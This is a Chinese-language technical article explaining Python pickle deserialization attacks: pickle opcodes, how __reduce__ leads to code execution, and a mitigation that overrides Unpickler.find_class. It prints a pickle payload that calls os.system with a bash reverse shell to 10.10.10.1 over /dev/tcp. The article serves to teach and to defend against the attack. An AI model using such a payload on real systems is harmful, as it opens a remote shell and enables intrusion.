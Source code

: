 简单翻译一下：只对你信任数据进行unpickle，因为可以构建恶意的pickle数据，在unpickle时会执行任何代码，要么考虑采用hmac对数据签名检查。

pickle是一种基于栈的编程语言，目前发展到python3.8已有5个协议版本。我们先使用python2来看一下案例中的代码序列化会生成什么（python3中dumps类型是bytes而在python2是str）:

```python
cposix
system
p0
(S'bash -i &> /dev/tcp/10.10.10.1/12345 0>&1 2>&1'
p1
tp2
Rp3
.
```

这里涉及到pickle语言指令，能执行这种指令是PVM(Pickle Virtul Machine)，Python运行环境也是一个PVM，它由下面三部分组成：

 - 指令处理器(Instruction processor)：解释与执行指令，遇到`.`结束
 - 栈区(stack)：数据处理过程中的暂存区，通过进出栈完成数据操作
 - 标签区(memo)：数据索引或者标记，全生命周期存储数据，以Key/Value存储数据

结合上面生成的内容来看，它有如下指令：

 - `c`：读取本行的内容作为模块名module, 读取下一行的内容作为对象名object，然后将module.object作为可调用对象压入到栈中。注：os模块在linux下其实是posix
 - `(`：标记对象压入到栈中, 常搭配`t`指令一起使用, 以便产生一个元组
 - `t`：从堆栈中弹出对象，创建一个包含弹出对象除了`(`的元组对象
 - `S`：后面跟字符串，遇到换行将内容压入到栈中
 - `R`：将之前压入栈中的元组和可调用对象全部弹出，将该元组作为可调用参数的对象并执行该对象，并把执行结果压入到栈中
 - `.`：结束整个pickle反序列化过程
 - `p1~p3`：将栈顶数据存入memo中，后面的数字是编号

当然pickle还有其它的指令，这里就不再一一列了，更多的指令可以查看pickle的源码[pickle.py](https://github.com/python/cpython/blob/master/Lib/pickle.py#L111)。

pickle反序列化漏洞出在[`__reduce__`](https://docs.python.org/3/library/pickle.html#object.__reduce__)函数上，当采用C语言定义Python扩展类型时，若想pickle此类型，则需要告诉python如何pickle它们。一旦
`__reduce__`函数定义，pickle序列化时会被调用，它要么返回一个代表全局名称的字符串，要么返回一个元组。这个元组包含2到6个元素，其中包括：

 - 一个可调用的对象，用于重建对象时调用
 - 一个参数元素，供那个可调用对象使用
 - 被传递给 `__setstate__` 的状态， 可选
 - 一个产生被pickle的列表元素的迭代器，可选
 - 一个产生被pickle的字典元素的迭代器，可选
 - 一个可以调用的callable，参数为(obj, state)，可选，3.8才新增的

就是由于个这个元组，跟pickle中的指令`R`可被利用之机："该元组作为可调用参数的对象并执行该对象"，如果这个元组有恶意代码，则可以调用而产生风险。虽然`__reduce__`返回只能是一个可调用对象，但可以结合os.system，subprocess.run，exec来执行任一命令或代码，几乎能做任何事了。

# 解决办法

正如python官方对pickle的介绍说明，只对信任的数据unpickle，对数据数字签名检查。但通常数字签名只限于自产自销的场景。打开pickle的源码来看，事实上还有另一个方法。python定义了Unpickler的接口，关键在于可以覆写find_class，下面是标准库的默认实现：

```python
def find_class(self, module, name):
    # Subclasses may override this.
    sys.audit('pickle.find_class', module, name)
    if self.proto < 3 and self.fix_imports:
        if (module, name) in _compat_pickle.NAME_MAPPING:
            module, name = _compat_pickle.NAME_MAPPING[(module, name)]
        elif module in _compat_pickle.IMPORT_MAPPING:
            module = _compat_pickle.IMPORT_MAPPING[module]
    __import__(module, level=0)
    if self.proto >= 4:
        return _getattribute(sys.modules[module], name)[0]
    else:
        return getattr(sys.modules[module], name)
```